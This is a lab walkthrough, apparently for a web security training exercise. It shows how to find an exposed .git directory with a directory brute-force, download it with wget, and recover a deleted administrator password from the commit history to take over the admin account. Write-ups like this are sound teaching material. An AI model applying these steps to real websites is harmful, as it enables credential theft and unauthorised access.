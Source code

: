 ### Information disclosure in version control history
<i>Please note that during the explanation my Lab ID will change, so there will be some discrepancy between the screen-shots and commands</i><br>
To follow the solution you will need to have installed:
+ wget
+ git CMD

#### Lab
The lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

First of all let's to brute-force the application directories structure. To do that we can use Intruder. Set up the position in the request as follows (choose Sniper as attack)
<br>![img](./img/100.png)<br>

Then in the payload(1) set the type as Simple list (2) and the list of the sub directories to test (3, <i>please note that here I have used a limited wordlist to speed up the process</i>). Be sure to uncheck the URL encoding characters option (4) before to execute the attack.
--101--
After a while we can see that the <b>.git</b> has been found. 
--102--
Just to recall this folder contains all information that is necessary for the project and all information relating commits. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code. Very interesting, first we have open a git CMD, then we can proceed to downlad the whole folder using wget:
```
wget -r https://0aae000604fffb3fc15be60b0075004c.web-security-academy.net/.git
```
Now enter into the downloaded directory
```
cd 0aae000604fffb3fc15be60b0075004c.web-security-academy.net
```
then we can check git log
```
>git log
commit 382d921b56e84ec70bb7cab25e444e98d4c02350 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 68eb0e4aabbe8db5654194dfc68db2f1430f4ee5
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
We can see from the above command that the admin passord was removed from the config file. Now we can check the status 
```
>git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php

no changes added to commit (use "git add" and/or "git commit -a")
```
Here we can see that the changes have not yet been added to the staging area, we can try to revert the last commit using reset command, then check the status again
```
>git reset --soft HEAD~1

>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   admin.conf

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
Now we can see that there are pending modification in the admin.conf file, as suggested we can restore the original modification of the file issuing the following command
```
>git restore --staged admin.conf
>REM then we can use the diff command to get the deleted information in the admin.conf file
>git diff
diff --git a/admin.conf b/admin.conf
deleted file mode 100644
index 3ac915d..0000000
--- a/admin.conf
+++ /dev/null
@@ -1 +0,0 @@
-ADMIN_PASSWORD=jw8ut5ca18vqbmvg75ij
diff --git a/admin_panel.php b/admin_panel.php
deleted file mode 100644
index 8944e3b..0000000
--- a/admin_panel.php
+++ /dev/null
@@ -1 +0,0 @@
-<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
\ No newline at end of file
```
Knowing the administrator password we can proceed to login and delete carlos
#### References
